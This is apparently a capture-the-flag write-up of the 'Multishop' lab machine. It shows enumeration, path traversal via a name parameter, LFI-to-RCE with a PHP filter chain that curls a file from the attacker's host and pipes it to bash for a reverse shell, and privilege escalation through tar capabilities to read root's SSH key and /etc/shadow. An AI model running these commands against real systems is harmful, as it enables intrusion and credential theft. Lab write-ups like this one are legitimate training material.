 ```yaml
---
title: "Multishop"
# date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - ctf
  - hacktrace-ranges
  - retired-mechines
---
```



### Affected Endpoint ###
Scope
```
    host/url:10.1.2.140
    Description: Access using hacktrace vpn
```
working time: 30 agustus - 2 september 2024

### Description ###
Background Story: The more you read, the more things you will know. The more you learn, the more places you will visit. 

vulnerability: file inclusion and Misuse of Linux Capabilities.

### Impact ###
Impact File Inclusion & Misuse of Linux Capabilities is:
- Information Disclosure.
- Code Execution.
- Privilege Escalation.
- System Integrity Compromise.

### Step To Reproduce ###
The steps in finding  vulnerability are as follows:
- Information Gathering.
- Enumeration.
- Exploit.
- Privilege escalation.
- Reporting.

### PoC ###
#### Information Gathering ####
Just as usual, we start off with the Nmap scan:
```
nmap -sCV -p- --min-rate=1000 -oN nmap -Pn 10.1.2.140
```
![alt text](/assets/images/hacktrace/multishop/image1.png)
There are two ports open: 22 (SSH), 80 (HTTP). Not having any credentials for the SSH service service, we will start with enumerating port 80. 
Scan directory using dirsearch
``` 
dirsearch -u http://10.1.2.140 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
![alt text](/assets/images/hacktrace/multishop/image2.png)
Try scanning the directory again, this time it's interesting in the bio
```
dirsearch -u http://10.1.2.140/bio -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
![alt text](/assets/images/hacktrace/multishop/image3.png)
That's it, nothing interesting, try looking into the url
![alt text](/assets/images/hacktrace/multishop/image4.png)
It looks like there is no upload file, I tried view-page:source
![alt text](/assets/images/hacktrace/multishop/image5.png)
There is a name parameter, this can indicate input validation, let's try to change the value 
```
http://10.1.2.140/bio/?name=../../../etc/passwd
```
![alt text](/assets/images/hacktrace/multishop/image6.png)
It turns out that we can do file inclusion, seen from the response given. 
Referensi file inclusion :
`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md`
after reading through it turns out that file inclusion using wrappers (php: //filter) can be entered, we create the payload using the php_filter_chain_generator.py tool 
```
python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
```
later the payload will come out and paste it in the parameter name, if you want the book to continue.
![alt text](/assets/images/hacktrace/multishop/image7.png)
And it does, we can continue to rce, but we have to create a file and live python3 -m http.server, the steps are as follows:
1.	Create a file with the name l (fiel that contains revshel bash) why is the name l and does not contain extensions? because so that the payload is not too long, because it is usually an error, the length of url
 ![alt text](/assets/images/hacktrace/multishop/image8.png)
2.	After that, start the server with python3 -m http.server 80
 ![alt text](/assets/images/hacktrace/multishop/image9.png)
3.	Turn on nc to capture the payload we created in the file earlier nc -lvnp port
4.	Generate payload : python3 php_filter_chain.py --chain  '<?=`curl -s -L 10.18.200.165/l|bash`?>' (meaning that after successfully getting files from our machine server, it is immediately run)
  ![alt text](/assets/images/hacktrace/multishop/image10.png)
  ![alt text](/assets/images/hacktrace/multishop/image11.png)
Now the payload is successful, because the file can be obtained by the target server and immediately executed
5.	Successful, we have entered the server as www-data
  ![alt text](/assets/images/hacktrace/multishop/image12.png)
### Privilage Escalation ###
1.	Grab linpeas.sh from our machine and move it to the target machine with wget then run linpeas.sh 
2.	After running it successfully found Files with capabilities (limited to 50)
  ![alt text](/assets/images/hacktrace/multishop/image13.png)
  We can manipulate this to get root privileges. There is a capability reference for privsec.: 
  `https://juggernaut-sec.com/capabilities/`
3.	We use the /usr/bin/tar to get access rights, try to find id_rsa for ssh login as root.
4.	We move to the bin directory with the command: cd /usr/bin.
5.	then tar xf “/root/.ssh/id_rsa” -I '/bin/sh -c “cat 1>&2”' then the id_rsa output will come out.
  ![alt text](/assets/images/hacktrace/multishop/image14.png)
6.	managed to get the credential id_rsa to login to ssh as root without using a password, but we can also see the root password (/etc/shadow) by using this credential capability, but it takes time to decrypt the password and we also don't know what wordlist is used. This is the /etc/shadow file: 
  ![alt text](/assets/images/hacktrace/multishop/image15.png)
We see 2 passwords appear, but this takes a long time, so we use id_rsa for ssh login.
7.	Save the id_rsa that appears then chmod 600 nama_file, the meaning of chmod 600 is that only the file owner can read and write the file, keeping the data safe from unwanted access.
8.	Then ssh -i nama_file root@10.1.2.140
9.	Boom, the book can be logged in as the highest access rights root
  ![alt text](/assets/images/hacktrace/multishop/image16.png)


### USER FLAG = user.txt ###
### ROOT FLAG = root.txt ###

















